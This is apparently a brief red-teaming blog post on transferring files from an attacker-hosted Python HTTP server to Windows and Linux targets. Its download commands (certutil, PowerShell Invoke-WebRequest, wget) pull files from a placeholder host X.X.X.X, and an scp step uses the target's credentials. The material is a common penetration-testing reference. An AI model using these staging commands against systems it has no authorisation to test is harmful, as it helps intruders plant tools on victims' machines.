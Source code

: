 ```yaml
---
title: "File Transfer"
collection: posts
type: "Info"
permalink: /posts/file-transfer
venue: "Red Teaming"
date: 2023-02-13
location: "City, Country"
---
```


## Description :
File transfer between Linux and Windows.

---

Before talking about how to transfer a file, let's start by how you can host a server on your attacking machine.

## Using Python


```bash
python3 -m  http.server  PORT_NUMBER
```
  
  

Now let's see how you can tranfer files on windows and linux

  

## Windows:

**cmd :**

```bash

certutil.exe -urlcache -f http://X.X.X.X:PORT/FILE_NAME FILE_NAME

```

**powershell :**

```powershell
powershell -c "Invoke-WebRequest -Uri 'http://X.X.X.X:PORT/FILE_NAME' -OutFile 'PATH\TO\FILE'"
```

## Linux

```bash
wget http://X.X.X.X/FILE_NAME  FILE_NAME
```
--- 

There is another way to transfer files using **scp** command where you don't need to host a server on your machine but you must have the credentials of the machine that you will transfer the file to.

```bash
scp FILE_NAME USER_NAME@X.X.X.X:/PATH/TO/FILE
```